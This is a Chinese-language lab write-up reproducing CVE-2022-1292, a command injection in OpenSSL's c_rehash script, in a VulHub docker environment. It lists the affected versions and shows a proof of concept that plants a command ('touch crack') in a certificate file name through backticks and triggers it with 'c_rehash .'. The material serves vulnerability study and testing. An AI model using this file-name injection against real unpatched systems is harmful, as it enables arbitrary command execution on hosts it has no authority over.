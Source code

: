 # OpenSSL命令注入漏洞（CVE-2022-1292）

OpenSSL 中的c_rehash存在命令注入, 允许以c_rehash脚本的权限执行命令。

受影响版本有：

+ 3.0.0 <= OpenSSL <= 3.0.2
+ 1.1.1 <= OpenSSL <= 1.1.1n
+ 1.0.2 <= OpenSSL <= 1.0.2zd

测试环境选取 VulHub 已存在的 `1.1.1m` 版本

参考链接：

+ <https://cve.report/CVE-2022-1292>
+ <https://xz.aliyun.com/t/11703>

## 漏洞环境

执行如下命令启动一个 server：

```
docker-compose up -d
```

## 漏洞复现

漏洞复现通过创建文件来证明命令注入成功执行

启动漏洞环境后，通过 `bash` 进入漏洞环境容器内：

```
docker-compose exec ssl bash 
```

执行

```
mkdir test && cd test
echo "-----BEGIN CERTIFICATE-----" > "1.crt\`touch crack\`"
ls 
```

![1.png](1.png)

然后执行

```
c_rehash .
```

发现`crack`文件成功创建。命令已执行

![2.png](2.png)
